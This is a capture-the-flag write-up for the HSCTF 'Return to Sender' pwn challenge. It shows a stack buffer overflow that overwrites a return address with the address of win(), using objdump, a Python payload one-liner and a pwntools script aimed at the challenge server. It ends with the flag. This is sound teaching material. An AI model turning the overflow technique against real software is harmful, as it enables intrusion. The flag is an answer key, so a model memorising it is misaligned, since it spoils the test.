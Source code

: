 # Return to Sender

Written by: Ptomerty

Who knew the USPS could lose a letter so many times?

nc pwn.hsctf.com 1234

Note: If you're trying to use python or a similar program to run your exploit, make sure to keep stdin alive with cat, like this: (python; cat -) | nc pwn.hsctf.com \<port\>

File: return-to-sender.c, return-to-sender

## Solution

![](./1.png)

So we probably need to overflow ```dest``` buffer and overwrite the return address with the address of ```win()```. To get the address of ```win()```, we use ```objdump```.

```
$ objdump -d return-to-sender
```

![](./2.png)

Let's try to overwrite the return address first.

```
python -c "print 'A'*24" | ./return-to-sender
```

![](./3.png)

Lets change the last 4 "A"s to the address of ```win()```. Take note that it needs to be in little endian.

```
python -c "print 'A'*20 + '\xb6\x91\x04\x08' + '\n'" | nc pwn.hsctf.com 1234
```

![](./4.png)

No prompt ? Weird. Lets try using ```pwntools```.

```python
from pwn import *

conn = remote("pwn.hsctf.com", 1234)
conn.recvuntil("today?")
conn.send('A'*20 + '\xb6\x91\x04\x08' + '\n')
conn.recvuntil("goes!")
conn.interactive()
```

![](./5.png)


Flag: ```hsctf{fedex_dont_fail_me_now}```
